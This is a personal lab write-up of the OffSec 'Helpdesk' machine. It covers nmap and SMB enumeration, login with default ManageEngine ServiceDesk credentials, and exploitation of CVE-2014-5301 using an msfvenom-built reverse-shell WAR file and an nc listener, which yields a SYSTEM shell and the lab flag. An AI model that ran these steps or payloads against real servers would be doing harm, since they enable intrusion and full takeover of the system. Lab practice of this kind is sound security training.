



# Helpdesk (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nmap -v -Pn -p- -T4 helpdesk
...

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nmap -v -Pn -p 135,139,445,3389,8080 -A helpdesk
...

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: Apache-Coyote/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-09T07:23:38-08:00
| smb2-time: 
|   date: 2024-03-09T15:23:38
|_  start_date: 2024-03-09T15:22:08
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:99:e5 (VMware)
| Names:
|   HELPDESK<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  HELPDESK<20>         Flags: <unique><active>
```

So some initial things to look at:

- Inspect SMB shares
- Look up Coyote JSP engine 1.1 on exploit-db
- Look up ManageEngine ServiceDesk Plus on exploit-db
- Enumerate the webserver, check it out on the browser

No shares visible through anonymous login:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ smbclient -L helpdesk -N  
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
```

No hits in exploit-db for "Coyote JSP engine 1.1"...


A lot of hits in exploit-db for "ManageEngine ServiceDesk"... We just need a version number.

Looking at the server in the browser we find our version (`7.6.0`):



I search the web for manageengine servicedesk default credentials:



Trying those in the web app gets us in:



There are a lot of exploit-db results for "manageengine servicedesk"... 

None of these explicitly include version 7.6.0 in their title, except for an SQLi... which we don't care about yet (maybe we come back to it), we want arbitrary file upload or remote code execution.

One of the results seems promising:

```
ManageEngine (Multiple Products) - (Authenticated) Arbitrary File Upload (Metasploit)                  | java/remote/35845.rb
```

I'll read the metasploit module code, but I won't use it (since my aim is to do the OSCP exam without Metasploit). From the code we learn that this module is for CVE-2014-5301:

- [Metasploit Module](https://www.exploit-db.com/exploits/35845)
- [NIST](https://nvd.nist.gov/vuln/detail/CVE-2014-5301)
- [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5301)

The first hit on google for "CVE-2014-5301 github" takes me to [this exploit code](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py).

Luckily this is one of the better documented exploits I've ever ran into:

```
# Use msfvenom to create a war file with meterpreter payload
# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war
#
# or with a reverse TCP shell
# msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war

# Before executing the script start the meterpreter handler
# meterpreter
#   use multi/handler
#   set payload java/meterpreter/reverse_tcp
#   set LHOST 192.168.56.108
#   run
#
# or start netcat listener on LPORT
# nc -nlvp 4444

# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
# HOST: target host
# PORT: target port
# USERNAME: a valid username for ManageEngine ServiceDesk Plus
# PASSWORD: the password for the user
# WARFILE: a war file containing the mallicious payload
```

So we do those things. First we generate the `.war` payload with `msfvenom`:

```
┌──(kali㉿kali)-[~/offsec/helpdesk/exploits]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.205 LPORT=80 -f war > shell.war
Payload size: 12807 bytes
Final size of war file: 12807 bytes
```

We set up a local listener with `nc`:

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nc -lnvp 80
listening on [any] 80 ...
```

And we run the exploit:

```
┌──(kali㉿kali)-[~/offsec/helpdesk/exploits]
└─$ python CVE-2014-5301.py helpdesk 8080 administrator administrator shell.war                                                 
Trying http://helpdesk:8080/zaKK54iUQtCWfdz2hm8WDirsC58Iyk64/faqsbaxgh/qNBlUM0seFelD6P7
Trying http://helpdesk:8080/zaKK54iUQtCWfdz2hm8WDirsC58Iyk64/faqsbaxgh/C0Jq83OGtVH3dVSs
```

And we have shell!

```
┌──(kali㉿kali)-[~/offsec/helpdesk]
└─$ nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.176.43] 49186
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin>echo %username%
echo %username%
SYSTEM
```

We find our flag in the Administrator user's Desktop:

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\Administrator\Desktop

01/18/2016  08:32 AM    <DIR>          .
01/18/2016  08:32 AM    <DIR>          ..
12/20/2009  05:03 AM    <DIR>          ITSHARED
12/20/2009  04:05 AM             1,535 ManageEngine ServiceDesk.lnk
03/09/2024  07:22 AM                34 proof.txt
               2 File(s)          1,569 bytes
               3 Dir(s)   6,297,985,024 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
e47853c179878d9a3006bb5adc5bbc46
```